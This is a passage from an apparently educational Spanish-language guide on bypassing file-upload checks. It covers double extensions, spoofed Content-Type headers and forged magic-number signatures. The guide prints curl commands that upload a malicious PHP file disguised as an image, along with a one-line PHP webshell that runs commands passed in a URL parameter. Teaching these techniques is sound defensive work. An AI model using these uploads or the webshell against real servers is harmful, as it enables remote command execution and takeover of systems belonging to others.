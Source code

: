   ```bash
  curl -F "file=@malicious.php;filename=image.png.php" https://domain.tbl/upload
  ```
  
  * `file` es el parámetro donde el servidor espera el propio fichero.
  * `@malicious.php` es el archivo local con código dañino.

### Eludiendo la comprobación de la cabecera `Content-Type`

* Los usuarios malintencionados pueden manipular la cabecera `Content-Type` en las peticiones HTTP para eludir las validaciones que se basan en esta cabecera para determinar el tipo de archivo.
* La cabecera `Content-Type` de una petición HTTP puede modificarse para representar cualquier tipo de archivo permitido por la aplicación, independientemente de si el archivo es dañino (e.g., se puede definir `image/jpeg` para un *script* ejecutable).

#### Manipulación de la cabecera `Content-Type` con `curl`

* El siguiente comando `curl` se puede utilizar para enviar un archivo PHP malicioso mientras se falsifica la cabecera `Content-Type` para que aparezca como un archivo `jpeg`:

  ```bash
  curl -F "file=@malicious.php;type=image/jpeg" https://domain.tbl/upload
  ```

### Eludiendo las comprobaciones de número mágico

* El número mágico es una secuencia única de *bytes* situada al principio del contenido de un archivo que se utiliza para identificar el tipo de archivo, según una [lista de firmas de archivos][1]. Estos *bytes* sirven como firma para el archivo, permitiendo al sistema operativo o a las aplicaciones determinar su tipo, incluso sin basarse en la extensión del mismo:
  * Los archivos `jpeg (jpg)` empiezan por `FF D8 FF` (correspondiente a `ÿØÿÛ`).
  * Los archivos `png` empiezan por `89 50 4E 47 0D 0A 1A 0A` (correspondiente a `‰PNG␍␊␚␊`).
  * Los archivos `pdf` empiezan por `25 50 44 46 2D` (correspondiente a `%PDF-`).
  * Los archivos `zip` empiezan por `50 4B 03 04` (correspondiente a `PK␃␄`).
* Los atacantes pueden añadir fácilmente un número mágico válido a los archivos maliciosos, haciéndolos parecer legítimos. Por ejemplo, añadir la firma `%PDF-2.0` al principio de un archivo *webshell* puede engañar al sistema haciéndole creer que se trata de un archivo PDF.

  > :older_man: El término `webshell` es el nombre común dado a un *script* utilizado por los atacantes que, cuando se carga en un servidor web, les permite ejecutar comandos del sistema y tomar el control del servidor como si tuvieran acceso directo la línia de comandos, pero todo de forma remota a través de la web.

* La siguiente ejecución de comandos es un ejemplo demostrativo de cómo puede realizarse.
  1. En primer lugar, se muestra el contenido del fichero `webshell.php`:

      ```bash
      :~$ cat webshell.php 
      <?php system($_GET["cmd"]); ?>
      ```

  1. Seguidamente, se determina el tipo de fichero mediante el comando de sistema `file`:

      ```bash
      :~$ file webshell.php
      webshell.php: PHP script text, ASCII text
      ```


[1]: https://en.wikipedia.org/wiki/List_of_file_signatures